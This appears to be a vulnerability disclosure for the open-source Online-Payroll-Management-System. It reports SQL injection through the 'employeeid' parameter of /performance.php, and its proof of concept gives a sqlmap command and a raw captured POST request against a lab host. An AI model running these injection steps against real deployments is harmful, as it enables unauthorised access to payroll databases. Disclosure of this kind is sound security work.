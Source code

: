 [description]
 
Online-Payroll-Management-System was discovered to contain a SQL Injection vulnerability via the URI /performance.php with parameter name 'employeeid'.

 ------------------------------------------

 [Vulnerability Type]
 
 SQL Injection

 ------------------------------------------
 [Vendor of Product]
 
 Online-Payroll-Management-System,https://github.com/MD-MAFUJUL-HASAN/Online-Payroll-Management-System

 ------------------------------------------

 [Affected Product Code Base]
 
 <=commit a8902bf64575e325f6d6bf93a55f7bd273ec58cd

 ------------------------------------------

 [Impact Escalation of Privileges]
 
 true

 ------------------------------------------
 [POC]
<img width="1336" alt="图片" src="https://github.com/user-attachments/assets/c9d48684-2e59-46c9-8883-c87b9b712096">
<img width="694" alt="图片" src="https://github.com/user-attachments/assets/7d0fd155-a5a8-45c2-8144-bff3ea6dba04">






sqlmap:
```
sqlmap -r a.txt -p employeeid --batch --banner --flush-session
```
a.txt
```
POST /performance.php HTTP/1.1
Host: 192.168.0.183:11182
Content-Length: 33
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.183:11182
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.183:11182/cal_sal.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Cookie: i18next=en; Admin-Token=eyJhbGciOiJIUzUxMiJ9.eyJsb2dpbl91c2VyX2tleSI6ImU0ZjJhZWJmLWVkMDEtNGM0OC04YjU4LTI3OTFjMzllMzFmMCJ9.0J-cqM7f9-cNNDe8_Q3CAiWkq4iyNqLDbBUh6mnYfRl1Ygv4HPIp3Ky1cbbpN3_4Zr8lYluJ5-nEunFvF84Xyw; sidebarStatus=0; pro_end=-1; ltd_end=-1; serverType=nginx; order=id%20desc; memSize=32012; SESSIONID=5253906e-713a-40e1-9da8-379c12b5fc68.g9MHRcbVBSSnuxBS2kXozqhXoig; request_token=R2jSjrmCm9VN6xmDbAK0n3uK282rC2acIB330unM9N1GRSTD; sites_path=/www/wwwroot; distribution=ubuntu; force=0; load_type=null; uploadSize=1073741824; rank=a; form_proxy=%5Bobject%20Object%5D; backup_path=/www/backup; PHPSESSID=72uq71htklndamdj2mrmj2f9o7; pnull=1; load_page=1; load_search=undefined; vcodesum=13; BatchPaste=null; _ga=GA1.1.2111016145.1721287966; _gid=GA1.1.1011972672.1721287966; Path=/www/wwwroot/Online-Payroll-Management-System.com; _gat=1; _ga_J1DQF09WZC=GS1.1.1721287966.1.1.1721292029.0.0.0
Connection: keep-alive

employeeid=1&add=CALCULATE+SALARY
```
